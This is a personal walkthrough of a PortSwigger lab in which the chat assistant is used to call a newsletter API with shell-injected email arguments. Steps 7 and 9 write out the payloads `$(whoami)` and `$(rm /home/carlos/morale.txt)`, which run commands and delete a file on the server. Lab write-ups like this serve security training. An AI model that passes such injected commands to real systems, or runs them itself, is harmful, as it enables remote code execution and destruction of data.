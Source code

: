 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/pentesting/d28-01-apr/llm/lab-exploiting-vulnerabilities-in-llm-ap-is/"}
---
```


Date : 01 Apr 2025

---

[Access the lab](https://portswigger.net/web-security/llm-attacks/lab-exploiting-vulnerabilities-in-llm-apis)

1. From the lab homepage, click **Live chat**.
2. Ask the LLM what APIs it has access to. The LLM responds that it can access APIs controlling the following functions:
    
    - Password Reset
    - Newsletter Subscription
    - Product Information
![attachments/Pasted image 20250403122845.png](/img/user/Cybersecurity/Pentesting/D28_01%20Apr/LLM/attachments/Pasted%20image%2020250403122845.png)

3. Consider the following points:
    
    - You will probably need remote code execution to delete Carlos' `morale.txt` file. APIs that send emails sometimes use operating system commands that offer a pathway to RCE.
    - You don't have an account so testing the password reset will be tricky. The Newsletter Subscription API is a better initial testing target.
4. Ask the LLM what arguments the Newsletter Subscription API takes.
![attachments/Pasted image 20250403122944.png](/img/user/Cybersecurity/Pentesting/D28_01%20Apr/LLM/attachments/Pasted%20image%2020250403122944.png)

5. Ask the LLM to call the Newsletter Subscription API with the argument `attacker@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
![attachments/Pasted image 20250403123103.png](/img/user/Cybersecurity/Pentesting/D28_01%20Apr/LLM/attachments/Pasted%20image%2020250403123103.png)

6. Click **Email client** and observe that a subscription confirmation has been sent to the email address as requested. This proves that you can use the LLM to interact with the Newsletter Subscription API directly.
![attachments/Pasted image 20250403152847.png](/img/user/Cybersecurity/Pentesting/D28_01%20Apr/LLM/attachments/Pasted%20image%2020250403152847.png)    
7. Ask the LLM to call the Newsletter Subscription API with the argument `$(whoami)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`.
![attachments/Pasted image 20250403152925.png](/img/user/Cybersecurity/Pentesting/D28_01%20Apr/LLM/attachments/Pasted%20image%2020250403152925.png)
   
8. Click **Email client** and observe that the resulting email was sent to `carlos@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`. This suggests that the `whoami` command was executed successfully, indicating that remote code execution is possible.
![attachments/Pasted image 20250403152958.png](/img/user/Cybersecurity/Pentesting/D28_01%20Apr/LLM/attachments/Pasted%20image%2020250403152958.png)
    
9. Ask the LLM to call the Newsletter Subscription API with the argument `$(rm /home/carlos/morale.txt)@YOUR-EXPLOIT-SERVER-ID.exploit-server.net`. The resulting API call causes the system to delete Carlos' `morale.txt` file, solving the lab.
![attachments/Pasted image 20250403153439.png](/img/user/Cybersecurity/Pentesting/D28_01%20Apr/LLM/attachments/Pasted%20image%2020250403153439.png)

### Lab Done!

